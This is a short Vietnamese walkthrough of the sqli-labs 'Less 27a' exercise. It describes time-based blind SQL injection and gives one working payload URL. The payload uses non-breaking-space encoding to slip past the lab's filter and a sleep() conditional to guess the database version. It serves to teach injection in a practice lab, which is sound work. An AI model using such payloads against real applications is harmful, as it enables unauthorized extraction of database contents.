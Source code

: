 # Less 27a

Bài này giống với [Less 27](Less-27.md) nhưng ở bài này không trả về lỗi nên ta không thể show các thông tin thông qua lỗi trả về. Nhưng tôi thử thì thấy có thể khai thác được thông qua time based

![](../images/sqli-labs/Less-27a/02.png)

Dựa vào đây ta sử dụng điều kiện trong `if` để đoán các thông tin trong DB

Version của DB

```
http://192.168.84.233/sqli-labs/Less-27a/?id=1%22%a0and%a0if(substr((select%a0@@version),1,1)=%275%27,sleep(10),false)%a0and%a0%221%22=%221
```

![](../images/sqli-labs/Less-27a/03.png)

Tương tự ta cứ làm như vậy lần lượt để show ra version đầy đủ của DB cũng như các thông tin khác trong DB.

Thay vì làm thủ công ta cũng có thể sử dụng script như những bài trước.